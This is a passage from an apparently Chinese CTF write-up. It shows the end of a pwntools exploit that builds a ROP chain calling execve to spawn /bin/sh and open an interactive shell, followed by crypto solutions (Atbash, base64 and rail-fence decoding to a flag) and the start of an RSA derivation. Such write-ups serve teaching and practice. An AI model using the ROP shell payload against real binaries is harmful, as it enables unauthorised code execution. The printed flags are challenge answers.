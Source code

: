 ```Python
payload += p64(syscall)

payload += p64(poprdi)
payload += p64(bss)+5*p64(0x0)
payload += p64(poprax)
payload += p64(59)
payload += p64(poprsi)
payload += p64(0)
payload += p64(poprdx)
payload += p64(0)
payload += p64(syscall)
                        
#io.sendline(264*b'a'+p64(0x41)+p64(0x4aa800)+(464-264-16)*b'\x00'+p64(0x4a0ac0))
io.sendline((464)*b'\x00'+payload)
#io.sendline(464*b'\x00'+p64(0x4a0ac0))
#io.sendline(64*b'a'+p64(0x4a0ac0))
raw_input("a")
io.send("/bin/sh\x00")
io.interactive()
print(io.recv())
```

## Crypto

### 古典密码

```SQL
AnU7NnR4NassOGp3BDJgAGonMaJayTwrBqZ3ODMoMWxgMnFdNqtdMTM9
```

我们观察这一串字符，猜测使用了base64换表，进行解密，发现出问题了

我们使用随波逐流脚本工具，对其进行一个一个的暴力猜测，最后发现使用Atbash解密，获得一串字符串

```
ZmF7MmI4MzhhLTk3YWQtZTlmNzQzbGdiYjA3LWNlNDctNmUwMjgwNGN9
```

然后我们用base64进行解密，得到：`fa{2b838a-97ad-e9f743lgbb07-ce47-6e02804c}`

发现已经出现了fa和括号的形式，所以我们用栅栏解密进行破解，栅栏栏数为2

![img](https://nankai.feishu.cn/space/api/box/stream/download/asynccode/?code=MjQ3ODZjMGRjMmE3MWM4M2ZiMDBmM2U1YWVjOTI2OGNfaHhSQzFQV2tVM0syNkh5WVVQYVExSkhRa1dlaWNIb29fVG9rZW46UnFqVmJoTmpzb3RXMGR4NXJJWGNzdlQyblVkXzE3MTYxMjE0MzY6MTcxNjEyNTAzNl9WNA)

得到最后的flag：`flag{b2bb0873-8cae-4977-a6de-0e298f0744c3}`

### OvO

首先我们观察题目，题目遮住了e的200个最低位，所以我们已知e的最高位，而我们题目中的kk是可以通过直接作除法得到的，我们利用n比p和q大得多的性质，直接近似计算出我们的$$kk=e//n-2$$

然后我们尝试去化简我们题目中给出的式子：

$$e = 65537 + kk \times p + rr \times((p+1) \times (q+1)) + 1$$

$$e = 65537 + kk \times p + (kk+2)\times((p+1) \times (q+1)) + 1$$
